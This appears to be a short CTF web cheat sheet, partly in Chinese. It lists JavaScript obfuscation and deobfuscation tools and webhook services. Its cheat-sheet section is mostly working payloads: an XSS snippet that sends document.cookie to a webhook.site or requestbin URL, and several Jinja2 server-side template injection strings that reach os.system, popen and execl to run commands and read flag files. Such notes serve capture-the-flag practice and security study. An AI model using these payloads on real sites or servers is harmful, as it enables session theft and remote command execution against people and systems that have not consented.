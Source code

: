 ```yaml
---
title: Web Cheat Sheet
tags: [Tools, CTF, Web]

category: "Tools/CTF"
---
```


# Web Cheat Sheet
<!-- more -->

## Online Tools
| Fuck                             | Beautifier                       |
| -------------------------------- | -------------------------------- |
| [jsfuck](http://www.jsfuck.com/) | [JSNice](http://www.jsnice.org/) |
|[jjencode](https://utf-8.jp/public/jjencode.html)|[JS 反混淆器](https://beautifier.io/): 可以反混淆或解密JS的檔案|
|[aaencode](https://utf-8.jp/public/aaencode.html)|[JS 壓縮+加密+混淆+美化](https://js.wfuapp.com/)|
|[Esolang List](https://esolangs.org/wiki/Language_list)|[JS Fuck Decode](https://www.53lu.com/tool/jsfuckdecode/)|
||[aadecode](https://cat-in-136.github.io/2010/12/aadecode-decode-encoded-as-aaencode.html)|

## Cheat-Sheet
{% raw %}
* [XSS-CheatSheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
    利用XSS把session打到webhook上: 
    ```javascript?
    window.location=<requestbin.com>/?a+document.cookie
    // or
    fetch("https://webhook.site/699a6563-c9b5-4ad7-adaa-e189c5f78194", { method: 'GET', headers: { 'Cookie': document.cookie } })
    ```
* [All-Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%19Injection/README.md)
* SSTI Payload: 記得找==os.\_wrap_close==
    ```
    {{().__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('id')}}
    {{self.__init__.__globals__.__builtins__.__import__("os").popen("cat%20Flag.txt").read()}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['execl']("/bin/cat", "cat", "./flag.txt")}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['popen']("cat /flag.txt")}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['execl']("/bin/cat", "cat", file.lower())}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['spawnl']('P_WAIT', "/bin/cat", "cat", file.lower())}}
    ```
{% endraw %}

## Others
* wasm $\to$ c: [wabt](https://github.com/WebAssembly/wabt)
    ```bash!
    # 按照說明build完後進到./build
    $ ./wasm2c {wasm file path} -o {output c file path}
    ```
* Webhook
    [Webhook.site](https://webhook.site/)
    [Beeceptor](https://beeceptor.com/)
    [Ngrok](https://ngrok.com/)